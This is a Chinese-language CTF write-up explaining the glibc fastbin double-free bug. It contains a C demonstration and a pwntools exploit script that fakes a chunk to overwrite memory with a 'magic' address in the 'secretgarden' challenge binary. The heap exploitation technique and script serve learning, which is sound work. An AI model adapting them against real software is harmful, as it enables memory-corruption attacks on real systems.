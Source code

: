 ```yaml
---
title: Double Free
date: 2018-07-23 08:37:40
tags: [CTF, PWN]
categories: pwn练习
---
```

#double free 漏洞 介绍

double free漏洞就是明面上的意思，即可以对一个chunk free两次，由于在free的时候，glibc只对main_arena指向的堆块进行检查，即只有当main_arena直接指向的chunk和将要free的hchunk是同一个chunk时程序才会报"double free"错误，也就是说我们只要间隔free就能绕过这个检测。
如下：
<!--more-->
int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);
    return 0;
}
第一次释放free chunk1时，fastbin中链表结构arena->chunk1->NULL
第二次释放free chunk2时，fastbin中链表结构arena->chunk2->chunk1->NULL
此时若free的是chunk2则glibc就能检测到double free从而报错
第三次释放free chunk1时，fastbin中链表结构arena->chunk1->chunk2->chunk1->chunk2

此时若能够在chunk被malloc后修改其fd指向则fastbin中的chunk1也指向修改的地址，如果这个地址时攻击者精心构造过的，那么就能造成一个任意地址写的漏洞。
chunk1被malloc后我们再malloc2次指定大小的size后，再下一次就可以在任意地址构造chunk，改写任意地址内容了。

此题就是一个double free的白板题，可以帮助了解double free. 
exp 如下：

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

r = process('./secretgarden')

def raiseflower(length,name,color):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)
    r.recvuntil(":")
    r.sendline(color)

def visit():
    r.recvuntil(":")
    r.sendline("2")

def remove(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))

def clean():
    r.recvuntil(":")
    r.sendline("4")

magic = 0x400c7b
fake_chunk = 0x601ffa
raiseflower(0x50,"da","red")
raiseflower(0x50,"da","red")
remove(0)
remove(1)
remove(0)
raiseflower(0x50,p64(fake_chunk),"blue")
raiseflower(0x50,"da","red")
raiseflower(0x50,"da","red")
raiseflower(0x50,"a"*6 + p64(0) + p64(magic)*2 ,"red")

r.interactive()

```

